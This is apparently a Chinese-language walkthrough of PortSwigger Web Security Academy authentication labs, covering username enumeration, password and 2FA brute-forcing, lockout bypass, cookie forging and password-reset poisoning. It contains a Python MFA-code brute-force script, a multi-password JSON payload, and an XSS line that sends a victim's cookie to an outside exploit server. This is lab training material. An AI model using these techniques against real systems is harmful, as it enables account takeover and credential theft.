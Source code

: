 [toc]

### 1. Username enumeration via different responses

这个题，直接爆破。

先爆破用户名，会有不同的返回。用户名是`au`。

接下来爆破密码，发现有一个是302跳转，得到密码是`aaaaaa`。

最后登录就可以了。

### 2. Username enumeration via subtly different responses

我直呼好家伙，爆破用户名的时候，有一个的返回没有那个`.`。

别的都是`Invalid username or password.`，就它是`Invalid username or password`。

得到的用户名是`affiliate`。

继续爆破密码，密码是`777777`。

### 3. Username enumeration via response timing

这个输入三次错误，就要等待30分钟，裂开。

我去看了一下官方的payload，用的`X-Forwarded-For`去规避。

然后这个是基于时间的，所以将密码设置的长一些。

使用`pitchfork`去爆破。

在`columns`里面把接收到responce的时间调出来，发现有几个都比较长。

每个都去试一下，发现用户名是`att`，密码是`1qaz2wsx`。

### 4. Broken brute-force protection, IP block

这个要爆破carlos的密码。

这个我是一个正确的`wiener, peter`加两个爆破用的密码。

爆破之前把线程调成1，避免正确和错误的顺序被打乱。

得到密码是：`asdfgh`。

### 5. Username enumeration via account lock

对每一个用户名进行多次爆破。

发现`acceso`爆破太多被锁了。

然后对这个进行密码爆破。

发现有一个没有报错，`chelsea`。

最后等一分钟，登陆。

### 6. Broken brute-force protection, multiple credentials per request

输入这种东西，返回302。

```
{"username":"carlos","password":["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"],"":""}
```

那就用二分法来找到密码。试了半天之后，发现我有问题。

直接用这个登陆不就好了。

### 7. 2FA simple bypass

这个第二个验证其实没有用，在输入了密码之后，就可以进入`/my-ccount`页面。

### 8. 2FA broken logic

输入用户名密码之后，返回了一个报文。

```http
GET /login2 HTTP/1.1
Host: ac251fc31e14f8fb80be465f0050001d.web-security-academy.net
Connection: close
Cookie: verify=wiener; session=wPMsPpgL5oax1kfTcYdEd1vaYnDitVTp


```

可以看到这个cookie有一个`verify=wiener`，猜测我用`carlos`就能登陆他的账户了。

直接改发现不对。而且我发现在发送验证码的时候，如果改成`carlos`之后，就不会向我的邮箱里面发送验证码，猜测应该是发送到了`carlos`的账户。

我又试了几次，发现我可以用上一次的验证码进行这一次的登陆。

然后我就在`/login2`先发了一个给carlos的请求。然后尝试去爆破，爆破了半天，发现太慢了，我就关了。

然后去看了一下官方的解析，发现是爆破，我人傻了。

于是我最后调到了20个线程去跑。还是跑了超级久。

### 9. 2FA bypass using a brute-force attack

这个玩意儿用官方给的教程，只能一个线程的跑，实在是太慢了。

在经历了无数次的卡死（跑70多个就不跑了）之后，我决定用python写代码。

```python
import requests
import re

if __name__ == '__main__':
    url = 'https://aca71f161e03469b800b1b5b00c1006b.web-security-academy.net'
    for i in range(10000):
        se = requests.session()
        re1 = se.get(url + "/login")
        token = r'<input required type="hidden" name="csrf" value="(.*)">'
        pattern = re.compile(token)
        result1 = pattern.findall(re1.text)
        body1 = "csrf={}&username=carlos&password=montoya".format(result1[0])
        re2 = se.post(url + '/login', body1)
        result2 = pattern.findall(re2.text)
        tmp = str(i)
        tmp = '0' * (4 - len(tmp)) + tmp
        body2 = 'csrf={}&mfa-code={}'.format(result2[0], tmp)
        re3 = se.post(url + '/login2', body2)
        print(tmp, end=" :")
        if re3.status_code == 200:
            print("false")
        else:
            print("true", re3.status_code)
            break
    print("FINISH")
```

这个就不会卡死了，但是还是很慢，要跑一万年（半小时200个）。

### 10. Brute-forcing a stay-logged-in cookie

登陆的时候勾选上保持登陆，然后去分析cookie。

然后发现了一串`stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`。

进行base64解码之后，发现是`wiener:51dc30ddc473d43a6011e9ebba6ca770`。

后面那一串感觉像是哈希。然后试了一下，发现是密码`peter`的MD5值。

所以可以用`stay-logged-in=base64('carlos:' + md5($password))`去爆破。

爆破的时候记得把session删了，要不然会自动登录到`wiener`账户。

### 11. Offline password cracking

这个题的`stay-logged-in`形成方式和上面一道题一模一样。

在自己尝试的时候发现在评论区有一个xss，可以爆出自己的cookie。

这里尝试将carlos的cookie发送到exploit上面。

`<script>fetch('https://ace21ff41fd7f8a98023102801690043.web-security-academy.net/' + document.cookie)</script>`

得到了`carlos`的cookie：`secret=IoePSl1sBll7WwZJ4JC7MpGSBgDThLsp;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

直接尝试用这个进行登陆，发现登陆成功。但是不能删除账户。

现在只能用cookie去分析密码了。得到了密码的MD5值是`26323c16d5f4dabff3bb136f2460a943`。

[md5在线解密破解](https://www.cmd5.com/)后，发现密码是`onceuponatime`。

### 12. Password reset broken logic

在改密码的界面，会发现改密码的时候，会把你的账户名和你要修改的密码一起给发送出去。

在这里改变用户名即可。

### 13. Password reset poisoning via middleware

这个题目不知道要怎么改变受害者接收到的邮件，去看了一下官方的payload，发现用的是`X-Forwarded-Host`头。

我添加了这个头，尝试将邮件链接指向我的Exploit：`X-Forwarded-Host: acf41f6d1f709afe8084415101340023.web-security-academy.net`

成功。

### 14. Password brute-force via password change

在这个页面我发现，在两个新密码不一样的时候会报错，如果旧密码对了，会报`s`，如果旧密码没有对，会报`Current password is incorrect`。

```http
POST /my-account/change-password HTTP/1.1
Host: ac871f2c1f1ff81880b61fe400280057.web-security-academy.net
Content-Length: 72
Content-Type: application/x-www-form-urlencoded
Cookie: session=3gekCFM4a0jevFPJuOH8l01Qmez5ZM7G

username=carlos&current-password=§peter§&new-password-1=a&new-password-2=b
```

直接对carlos的密码进行爆破（这里一定要加上自己的cookie，不然会转跳到登陆）。

查看报错信息就好了。发现密码是`cheese`。



